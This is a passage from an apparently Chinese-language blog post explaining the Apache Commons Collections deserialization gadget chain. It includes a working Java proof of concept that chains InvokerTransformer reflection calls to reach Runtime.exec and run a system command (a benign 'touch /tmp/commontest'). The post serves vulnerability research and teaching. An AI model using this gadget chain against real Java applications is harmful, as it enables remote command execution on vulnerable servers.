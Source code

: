 这个transform(Object input) 中使用Java反射机制调用了input对象的一个方法，而该方法名是实例化InvokerTransformer类时传入的iMethodName成员变量：

{% highlight java %}
public static Transformer getInstance(String methodName) {
    if (methodName == null) {
        throw new IllegalArgumentException("The method to invoke must not be null");
    }
    return new InvokerTransformer(methodName);
}
{% endhighlight %}

也就是说这段反射代码中的调用的方法名和Class对象均可控。于是，我们可以构造一个恶意的Transformer链，借用InvokerTransformer.transform()执行任意命令，测试代码如下：

{% highlight java %}
public class CommonTest {

    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new Object[] { "touch /tmp/commontest" }) };

        Transformer transformedChain = new ChainedTransformer(transformers);

        Map normalMap = new HashMap();
        normalMap.put("value", "value");

        Map tansformedMap = TransformedMap.decorate(normalMap, null, transformedChain);

        Map.Entry entry = (Entry) transformedMap.entrySet().iterator().next();
        entry.setValue("test");

    }
}
{% endhighlight %}

以上代码中ConstantTransformer也是Commons Collections内置的一个Transformer，顾名思义可以将待变换的对象，变为一个常量，它的transform()方法代码如下：

{% highlight java %}
public Object transform(Object input) {
    return iConstant;
}
{% endhighlight %}

这样，这段恶意代码本质上就是利用反射调用Runtime() 执行了一段系统命令，作用等同于：

{% highlight java %}
((Runtime) Runtime.class.getMethod("getRuntime",null).invoke(null,null)).exec("touch /tmp/commontest");
{% endhighlight %}
